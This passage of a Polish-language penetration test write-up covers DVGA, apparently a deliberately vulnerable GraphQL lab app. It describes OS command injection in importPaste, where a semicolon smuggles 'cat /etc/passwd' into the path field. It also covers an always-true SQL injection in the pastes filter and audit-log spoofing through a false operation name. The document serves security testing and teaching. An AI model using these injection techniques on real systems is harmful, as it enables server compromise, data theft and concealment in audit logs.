filtrowania danych z bazy oraz rejestrowania aktywności użytkownika nie zawierają odpowiednich zabezpieczeń ani walidacji. Skutkuje to możliwością wykonania poleceń systemowych po stronie serwera, wstrzyknięcia niestandardowych zapytań SQL oraz fałszowania wpisów w systemie audytu.

# OS Command Injection

Podatność została wykryta w mechanizmie importującym dane zdalnie poprzez funkcję importPaste. Aplikacja przyjmuje parametry takie jak adres hosta, port, ścieżkę oraz schemat i na ich podstawie prawdopodobnie wykonuje polecenie systemowe, np. z wykorzystaniem narzędzi typu wget lub curl.

W wyniku braku walidacji wprowadzanych danych możliwe było przesłanie parametrów zawierających znaki specjalne wykorzystywane w powłokach systemowych, takie jak średnik, co pozwoliło na dołączenie dodatkowego polecenia do wykonania a mianowicie w tym przypadku polecenia cat /etc/passwd w polu path. Skutkiem ataku było wykonanie komendy systemowej, której wynik został zwrócony w odpowiedzi API co jednoznacznie potwierdziło skuteczne wykonanie kodu po stronie serwera.


# SQL Injection

W trakcie testów wykryto, iż m.in. parametr filter w zapytaniach typu pastes() jest wrażliwy na manipulacje charakterystyczne dla klasycznych ataków SQL Injection. Aplikacja nie stosuje mechanizmów ochronnych takich jak sanityzacja danych wejsciowych, parameterized queries czy mechanizmy ORM, co umożliwia modyfikację oryginalnej składni SQL.

W ramach potwierdzenia podatności przesłano specjalnie skonstruowaną wartość filtra, która powodowała, iż warunek zapytania był zawsze prawdziwy. Skutkowało to zwróceniem wszystkich rekordów z tytułami wklejek z tabeli w tym prywatnych, co nie byłoby możliwe przy prawidłowo zaimplementowanej kontroli filtrów. Jest to więc przykład podatności na SQL Injection typu "OR-based".


# Log Injection / Spoofing


W aplikacji DVGA moduł audytowy rejestruje historię zapytań GraphQL, w tym nazwę operacji (operation name) oraz treść wykonanego zapytania. Nazwa operacji widnieje w kolumnie GraphQL Operation, natomiast cała treść zapytania jest zapisywana jako tekst w kolumnie GraphQL Query.

W trakcie testów wykryto, że możliwe jest celowe wprowadzenie w błąd systemu audytowego poprzez nadanie dowolnej, fałszywej nazwy operacji. Mechanizm logujący nie analizuje faktycznego typu operacji (query/mutation) ani jej rzeczywistego działania, lecz bezkrytycznie rejestruje nazwę podaną przez użytkownika.

Problem wynika z zaufania do deklaratywnej nazwy operacji, zamiast wykonania prostego sprawdzenia, czy operacja rzeczywiście odpowiada jej nazwie. System audytowy nie analizuje typu zapytania (query vs mutation), ani też nie mapuje funkcji względem faktycznego działania.
Zgodnie ze specyfikacją GraphQL, operation name to pole czysto opisowe, opcjonalne i w pełni kontrolowane przez klienta. Używanie go jako głównego identyfikatora operacji w systemie logującym to błąd projektowy.

Brak filtrowania pozwala natomiast na m.in. wstrzyknięcie znaków nowej linii lub innych kontrolnych, które mogą zmienić strukturę logu lub wprowadzić nowe fałszywe wpisy. Potencjalnie umożliwia to atakującemu ukrycie swojej aktywności, wprowadzenie wpisów wprowadzających w błąd lub zaburzenie integralności dzienników audytowych.


Na screenie przedstawiono zapytanie typu mutation, które tworzy nową pastę (createPaste). Jednakże w nagłówku zapytania jako operation name celowo ustawiono getPastes, co zwykle sugerowałoby niewinną operację odczytu (query). Pomimo że wykonana została modyfikacja danych, system audytowy rejestruje ją jako operację getPastes.


